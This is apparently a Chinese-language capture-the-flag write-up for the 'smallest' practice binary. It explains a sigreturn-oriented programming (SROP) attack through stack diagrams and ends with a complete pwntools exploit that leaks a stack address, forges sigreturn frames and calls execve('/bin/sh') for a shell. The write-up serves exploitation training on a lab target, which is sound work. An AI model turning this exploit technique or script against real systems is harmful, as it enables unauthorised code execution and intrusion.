

# 标题

> xman-practice-smallest

## **原理**

SROP
## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**


由上图可见，rdi，rsi，rdx是存放参数的寄存器，其中rax为0，然后进行 syscall，系统调用号为0的函数为，read。可见这个代码是向栈中写入 0x400个字符。

我们是否可以通过 系统调用 调用 exec或者sys。

```
payload = p64(start_addr) * 3
sh.send(payload)
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))
```


上面脚本的执行过程如下图所示：

- 通过read函数，将输入读到栈中

```
高  |-------------------+
   |                   |
   +-------------------+
   |                   |
   +-------------------+
   |                   |
   +-------------------+
   |     start_addr    |
   +-------------------+
   |     start_addr    |
   +-------------------+
   |     start_addr    | <-----+ rsp
   +-------------------+
   |                   |
低  +-------------------|

```
- 读操作结束后，start_addr 将作为返回地址 从栈中弹出。再进行 读操作。

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   |
+-----------------+
|    start_addr   | <----+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```

- 读取一个字节 将b0 写为b3。 这样 返回地址就改为0x4000b3，同时 也将rax置为1。

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   |
+-----------------+
|    4000B3       | <----+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```
- 因为将rax置为1，同时也没有执行xor操作，所以接下来进行的是写操作（1是write的系统调用号），读入栈中的地址，为接下来 

```
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|    start_addr   | <------+ RSP
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+
|                 |
+-----------------+

```

- 接下来 start_addr 弹出，再执行一次读操作。而这一次我们向栈中写入的 是构造好的 sigframe 。

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

```
- 读入之后 程序又从start_addr开始执行。 又进行读操作：

```
## set rax=15 所以输入15个字符 and call sigreturn 
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)
```
- 输入 sigreturn 之后，弹出 syscall_ret，因为此时 rax是15 所以执行的是 sigreturn。将刚才 仿造 的sigframe，填充到寄存器中，然后执行read的操作。

- 再仿造一个 SigreturnFrame 调用，execv("/bin/sh",0,0)。


完整exp：

```
from pwn import *

small = ELF('./smallest')

sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```


## **参考阅读**

[srop原理](http://www.freebuf.com/articles/network/87447.html)